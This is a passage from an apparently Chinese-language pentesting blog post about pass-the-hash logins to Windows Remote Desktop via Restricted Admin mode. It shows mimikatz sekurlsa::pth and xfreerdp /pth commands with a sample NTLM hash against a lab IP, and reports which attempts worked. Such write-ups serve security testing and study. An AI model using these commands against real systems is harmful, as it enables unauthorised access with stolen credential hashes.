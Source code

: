 Client:

- 支持Restricted Admin mode

### 方法1： mimikatz

实际上为`Overpass-the-hash`

需要管理员权限

mimikatz命令如下：

```
privilege::debug
sekurlsa::pth /user:administrator /domain:remoteserver /ntlm:d25ecd13fddbb542d2e16da4f9e0333d "/run:mstsc.exe /restrictedadmin"
```

执行后弹出远程登录界面，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-5-6/3-1.png)

选择`连接`，成功实现远程登录

### 方法2： FreeRDP

下载地址：

https://github.com/FreeRDP

可供参考的文章：

https://labs.portcullis.co.uk/blog/new-restricted-admin-feature-of-rdp-8-1-allows-pass-the-hash/

https://www.kali.org/penetration-testing/passing-hash-remote-desktop/

FreeRDP实现了远程桌面协议，支持传入hash

支持Linux、Windows和MAC，下载地址如下：

https://github.com/FreeRDP/FreeRDP/wiki/PreBuilds

#### 实际测试：

(1)linux下使用明文远程登录的参数：

```
xfreerdp /u:administrator /p:test123! /v:192.168.62.136 /cert-ignore
```

测试成功

(2)linux下使用hash远程登录的参数：

```
xfreerdp /u:administrator /pth:d25ecd13fddbb542d2e16da4f9e0333d /v:192.168.62.136 /cert-ignore
```

测试失败

Windows下也是同样的测试结果
